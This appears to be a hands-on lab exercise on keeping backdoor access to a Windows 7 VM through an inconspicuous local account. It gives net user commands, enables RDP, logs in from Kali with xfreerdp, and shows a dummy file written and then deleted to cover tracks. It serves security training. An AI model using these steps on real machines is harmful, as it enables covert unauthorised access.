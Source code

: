 # Persist On A Windows Machine With A Malicious User Account
Creating a malicious local account is a simple way to install a backdoor, often going unnoticed in poorly managed networks. Even if detected, it may remain due to concerns over breaking functionality. Skilled attackers may avoid giving the account admin rights, opting instead to plant a privilege escalation vulnerability for future use

## Tasks
- Create a user with an inconspicuous name that would seamlessly blend into an organization in a VM
- Initiate an RDP connection to the target system from a separate machine, utilizing the malicious account's credentials to showcase successful access
- Navigate the system's directories to emphasize the subtle nature of the malicious account's presence and the potential challenges in detection
- Generate a dummy file in a sensitive directory to simulate a security breach, demonstrating how a malicious actor might misuse this access for unauthorized file manipulation
- Show how the malicious account can be used to cover tracks, such as deleting the dummy file

## Solutions With Scripts
1. Open Command Prompt as Administrator in Windows 7 VM
2. Add a user with a non-suspicious name such as `svc_network` or `backup_admin`
   ```
   net user svc_network password123 /add
   ```
3. Add the user to a specific group like "Users". Avoid giving it administrative privileges to make the account less suspicious
   ```
   net localgroup Users svc_network add
   ```
4. To enable RDP (Remote Desktop Protocol) on Windows 7 VM, go to Control Panel > System and Security > System. Click on Remote Settings from the left panel. Under the Remote Desktop section, select Allow connections from computers running any version of Remote Desktop
5. Allow RDP through Windows Firewall and ensure that Remote Desktop is checked for both private and public networks
6. To initiate an RDP connection from Kali Linux, install `xfreerdp` using the following commands
   ```
   sudo apt update
   sudo apt install freerdp2-x11
   ```
7. Use the malicious account credentials (`svc_network`) to connect to Windows 7 VM via RDP
   ```
   xfreerdp /u:svc_network /p:password123 /v:<Target_VM_IP_address>
   ```
8. To simulate a security breach, create a dummy file in a sensitive directory like C:\Program Files or C:\Windows\Temp. Run the following command
   ```
   echo "Sensitive data" > C:\Windows\Temp\dummymaliciousfile.txt
   ```
9. To cover up the tracks, delete the dummy file
   ```
   del C:\Windows\Temp\dummymaliciousfile.txt
   ```
10. Close the RDP connection by logging out of the RDP session from Kali Linux by pressing Ctrl+C to end the xfreerdp session
